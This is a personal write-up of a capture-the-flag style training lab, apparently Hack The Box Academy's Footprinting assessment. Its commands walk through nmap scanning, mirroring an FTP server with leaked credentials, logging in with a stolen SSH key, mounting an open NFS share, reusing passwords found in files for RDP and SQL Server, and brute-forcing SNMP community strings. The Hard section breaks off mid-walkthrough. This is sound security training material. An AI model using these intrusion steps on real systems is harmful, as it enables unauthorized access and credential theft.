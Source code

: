 ```yaml
---
description: Skills Assessment
---
```


# Footprinting Labs

## Footprinting Lab - Easy

### What is given

* company name: **`Inlanefreight Ltd`**
* given server: **`DNS`**
* found credentials: "**`ceil:qwer1234`**"
* admins have stored a "**`flag.txt`**" file on the server, we should obtain its content

### Questions

#### 1. Enumerate the server carefully and find the flag.txt file. Submit the contents of this file as the answer.

**`sudo nmap -sVC 10.129.72.126`**

* 21 ftp - ProFTPD Server (ftp.int.inlanefreight.htb)
* 22 ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.2
* 53 domain - ISC BIND 9.16.1, dns-nsid: bind.version: 9.16.1-Ubuntu
* 2121 ftp - ProFTPD Server (Ceil's FTP)
* CONCLUSION
  * FTP: 21 is a real FTP server, 2121 is just a proxy to the real one&#x20;
  * SSH: We dont have keys for login, it might be in the FTP server...

dig soa \<IP>

* AUTHORITY SECTION: . 5 IN SOA **`a.root-servers.net`. `nstld.verisign-grs.com`**. 2023091101 1800 900 604800 86400

ssh ceil@10.129.72.126

* "`ceil@10.129.72.126: Permission denied (publickey).`"

ftp 10.129.72.126

* logged in, nothing to be found

**`wget -m --no-passive ftp://ceil:qwer1234@10.129.72.126:2121`**

* downloaded all the FTP files to local machine
* cd 10.129.72.126:2121 -> ls -la (**`.bash_history`**) -> cat **`.bash_history`**
  * `ls -al mkdir ssh cd ssh/ echo "test" > id_rsa id ssh-keygen -t rsa -b 4096 cd .. rm -rf ssh/ ls -al cd .ssh/ cat id_rsa ls a-l ls -al cat id_rsa.pub >> authorized_keys cd .. cd /home cd ceil/ ls -l ls -al mkdir flag cd flag/ touch flag.txt vim flag.txt cat flag.txt ls -al mv flag/flag.txt .`
* cd 10.129.72.126:2121 -> ls -la (**`.ssh`**) -> cd .ssh -> ls -la (**`id_rsa`**)
* **`chmod 600 id_rsa`**
* **`sftp -i id_rsa ceil@10.129.72.126`**
* **`cd ..`**
* **`ls -la`**
* **`cd flag`**
* **`ls`**
* **`get flag.txt`**
* LOCAL machine: **`cat flag.txt`**



## Footprinting Lab - Medium

### What is given

* everyone on the internal network has access to the server
* user named **`HTB`**
* we need to obtain credentials of this user as proof

### Questions

1. **Enumerate the server carefully and find the username "HTB" and its password. Then, submit this user's password as the answer.**

**`sudo nmap -sVC 10.129.169.252`**

* 111 rpcbind - version 2-4
* 135 msrpc
* 139 netbios-ssn
* 445 microsoft-ds?
* 2049 mountd 1-3
* 3389 ms-wbt-server - info: WINMEDIUM, Product\_Version: 10.0.17763
* \+ smb host scripts (smb2-security-mode: 311)
* Conclusion:
  * looks like NFS because of rpc

`rpcclient -U "" 10.129.45.189`

* Cannot connect to server. Error was NT\_STATUS\_LOGON\_FAILURE

**`showmount -e 10.129.169.252`**

* ![](<.gitbook/assets/image (12) (1) (1) (1) (1) (1).png>)

`sudo nmap 10.129.169.252 --script nfs* -p111,2049 -sV`

`mkdir target-NFS`

**`sudo mount -t nfs 10.129.169.252:/TechSupport ./target-NFS/ -o nolock`**

cd target-NFS

ls -la => many tickets, but only one with some data

**`cat ticket4238791283782.txt`**

* domain="10.129.2.59:9500"&#x20;
* path=/login
* from="alex.g@web.dev.inlanefreight.htb"
* user="**alex**"
* password="**lol123!mD**"
* port = 25 (SMTP)
* host=smtp.web.dev.inlanefreight.htb

**`remmina`**

* RDP = 10.129.169.252
* username = alex
* password = lol123!mD
* domain = 10.129.2.59:9500

We successfully connected using RDp to alex Windows machine, it contains MSQL Server Management Studio 18, but we dont have access to it...lets find the PW for su user to get access into DB with PW

![](<.gitbook/assets/image (13) (1) (1) (1) (1) (1).png>)![](<.gitbook/assets/image (14) (1) (1) (1) (1) (1).png>)

Searching the alex Windows machine -> c:/users/alex/devshare/important.txt => **`sa:87N1ns@slls83`**

* login doesnt work
* RUN MSSQLServer as ADMIN with found PW (87N1...)
  * we are in the DB
  * New Query -> **`select * from accounts.dbo.devsacc where name = ‘htb’;`**
  * ![](<.gitbook/assets/image (15) (1).png>)



## Footprinting Lab - Hard

### What is given

* MX and management server for the internal network
* server has the function of a backup server for the internal accounts in domain
* user named **`HTB`**

### Questions

1. **Enumerate the server carefully and find the username "HTB" and its password. Then, submit HTB's password as the answer.**

**`sudo nmap -sVC 10.129.251.207`**

* 22 SSH
* 110 POP3 - Dovecot pop3d
* 143 IMAP - Dovecot imapd (Ubuntu)
* 993 IMAPS?
* 995 POP3S?
* CONCLUSION -> looks like we wanna use what we learned from IMAP/POP3 module...

**`openssl s_client -connect 10.129.251.207:pop3s`**

**`onesixtyone -c /usr/share/SecLists/Discovery/SNMP/snmp.txt 10.129.251.207`**

\=> ![](<.gitbook/assets/image (14) (1) (1) (1) (1).png>)

\=> we obtained the hostname \[XXX], lets dive deeper

**`braa XXX@10.129.251.207:.1.3.6.*`**

\=> ![](<.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)![](<.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png>)

\=> we obtained the credentials of a user "tom" - lets try these

**`curl -k 'imaps://10.129.251.207' –user XXX:XXX -v`**

**`1 SELECT INBOX`**



